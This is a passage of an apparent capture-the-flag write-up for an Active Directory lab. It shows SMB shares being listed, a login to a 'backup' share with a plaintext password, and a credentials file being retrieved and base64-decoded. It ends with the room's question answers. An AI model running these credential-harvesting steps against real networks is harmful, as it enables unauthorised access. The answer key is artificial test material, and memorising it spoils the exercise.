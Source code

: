 **Result:**
```sh
Can't load /etc/samba/smb.conf - run testparm to debug it
Password for [WORKGROUP\svc-admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

**Which shares can we access?**

```sh
smbclient //10.10.60.39/backup -U svc-admin --password=management2005
```

**Contents of backup:**

```sh
smb: \> ls
smb: \> get backup_credentials.txt 
cat backup_credentials.txt
# YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```

Decoding the above string using base64 gives, 

`backup@spookysec.local:backupxxx7860`



**Questions:**

1. What utility can we use to map remote SMB shares?
	- `smbclient`

2. Which option will list shares?
	- `-L`

3. How many remote shares is the server listing?
	- `6`

4. There is one particular share that we have access to that contains a text file. Which share is it?
	- `backup`

5. What is the content of the file?
	- `YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`

6. Decoding the contents of the file, what is the full contents?
	- `backup@spookysec.local:backupxxx7860`


